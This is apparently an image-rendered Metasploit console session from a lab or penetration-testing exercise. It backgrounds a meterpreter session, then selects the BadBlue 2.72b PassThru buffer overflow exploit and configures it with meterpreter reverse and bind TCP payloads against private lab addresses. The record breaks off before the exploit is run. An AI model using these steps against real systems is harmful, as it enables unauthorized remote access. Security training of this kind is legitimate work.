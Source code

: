 ```
meterpreter > background
[*] Backgrounding session 1...
msf6 auxiliary(scanner/portscan/tcp) > search BadBlue 2.7

Matching Modules
================

   #  Name                                   Disclosure Date  Rank   Check  Description
   -  ----                                   ---------------  ----   -----  -----------
   0  exploit/windows/http/badblue_passthru  2007-12-10       great  No     BadBlue 2.72b PassThru Buffer Overflow


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/badblue_passthru

msf6 auxiliary(scanner/portscan/tcp) > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/badblue_passthru) > show options

Module options (exploit/windows/http/badblue_passthru):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.16.3       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   BadBlue EE 2.7 Universal


msf6 exploit(windows/http/badblue_passthru) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf6 exploit(windows/http/badblue_passthru) > set RHOSTS 10.0.29.71
RHOSTS => 10.0.29.71
msf6 exploit(windows/http/badblue_passthru) > show options

Module options (exploit/windows/http/badblue_passthru):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   10.0.29.71       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
```